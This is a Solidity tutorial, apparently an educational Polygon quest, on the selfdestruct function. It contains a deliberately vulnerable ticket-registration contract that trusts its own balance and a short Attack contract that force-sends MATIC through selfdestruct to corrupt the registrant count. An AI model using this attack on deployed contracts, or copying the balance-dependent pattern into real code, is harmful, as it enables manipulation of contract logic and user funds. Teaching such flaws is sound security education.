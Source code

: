 # Exploiting selfdestruct()
Welcome to this new Polygon quest. You can follow this quest on Remix, no need for Hardhat (See, I keep my promises). Make sure you are on Mumbai and you have enough tokens. What are we waiting for! Let's go.
In this quest, you will learn about the _selfdestruct_ function in Solidity and how it can be used to hack contracts that follow a specific pattern. Firstly, we are going to write a contract that implements _selfdestruct_. Also, we are going to point out possible unexpected behaviors that can happen if you do not implement safety measures. Lastly, we are going to write a “hackable” smart contract and hack it. Seems fun? Let's see.

Note that you can modify _msg.values_ the way you like. I chose natural numbers just for demonstration purposes.

## What is selfdestruct()?
Well, it is a function that deletes your contract from the blockchain. Or to put it in other words, it makes it dysfunctional. After you call _selfdestruct_, people can still interact with your contract by calling functions but nothing really will happen (no state changes will be recorded). You use this function as a safety button, you can use it to send all the balances in your account to a specified address. Imagine if you discovered that you got hacked and someone is withdrawing your funds, you can just call _selfdestruct_ with your address as a parameter and save what can be saved. Let’s jump to the implementation, we will use the good old storage contract to explain how _selfdestruct_ works and how to avoid unexpected behaviors.
Go ahead and include this snippet in your Remix:

```js
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0 <0.9.0;
 
contract Storage {
   uint256 public number;
   address payable public owner;
 
   constructor() {
       owner = payable(msg.sender);
   }
   function setNumber(uint256 num) public {
       number = num;
   }
 
   function destroy() public {
       require (msg.sender == owner);
       selfdestruct(owner);
   }
}
```

This is a simple contract that lets you store your favorite number, gives you ownership, and allows you to destroy it sending funds to your address. You can of course configure it to send your funds to another address. Now go to Remix’s Deply&Run Transactions window and start interacting with it. At first, store a number and try to return it by clicking on the number button, works fine! Check the owner, it should be your address, the one you used to deploy the contract. Now call the destroy function and check the owner again, it is the zero address! Technically your contract got “burned”. But you still can call _setNumber_ with seemingly no problems at all, but it is not really doing anything, it is just making you lose money as it will not perform state changes. If you click on the number button you will get 0 as a result no matter what number you entered. 
So, when you use _selfdestruct_, make sure to inform users not to use the contract anymore. Or create a state variable (call it destroyed for example), and check it in a require statement in every function so that users will know the contract has stopped working. Ok cool, let’s do some hacking now!

## A vulnerable contract:
Now let’s imagine the following scenario, you are about to present an important lecture about the selfdestruct hack. You are too cool to sell tickets the normal way, so you wrote a smart contract to do the job:

```js
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0 <0.9.0;
 
contract Register {
    mapping(address => bool) registered;
 
   function register() public payable {
       require(msg.value == 1 ether);
       require(address(this).balance <= 10 ether);
       registered[msg.sender] = true;
   }
 
   function getNumberOfRegistrants() public view returns (uint256) {
       return address(this).balance / (10**18);
   }
}
```

This contract allows you to register after you pay 1 MATIC. But there are only 10 chairs so you made sure to put that into consideration. Now since every registrant pays 1 MATIC to register, you should expect 10 MATICs for 10 registrants. You expect the same logic to work in getNumberOfRegistrants. Let’s introduce our malicious actor Bob, who knows how to use selfdestruct and does not want anybody else to learn (Bad Bob). So Bad Bob decided to write a contract that implements selfdestruct to send MATIC to your contract and prevent the other 9 knowledge lovers from attending. He registered first as a normal attendant. You were careful enough and did not include a receive function that allows random people to send MATIC. But Bad Bob got the better of you, let’s see his code.

## Hacking the vulnerable contract:
Bad Bob simply did the following: He sent 9 MATICs to his Attack contract, created an instance of the Register contract to interact with, and selfdestructed his Attack contract with your contract’s address as a parameter! Now your contract’s balance is 10 and your logic broke!

```js
import "./Register.sol";

contract Attack {
   Register registerAddress;
 
   constructor(Register _registerAddress) {
       registerAddress = Register(_registerAddress);
   }
 
   receive() external payable {}
    
   function attack() public payable {
       address payable addr = payable(address(registerAddress));
       selfdestruct(addr);
   }
}
```

Now your contract tells you there are 10 registrants, but you entered the lecture hall finding only Bad Bob smiling at you.

## Final remarks:
When using selfdestruct, make sure to find a way to inform your users that you destroyed the contracts. And be extremely careful with this(address).balance, just don’t rely on it, it can be easily hacked. Simply create a state field, call it “balance” for example, and use it to manage conditions and require statements. And also, remember to include selfdestruct in your code, you never know what would happen.
The end! Now you know one more cool thing about Solidity. Keep going and happy hacking!

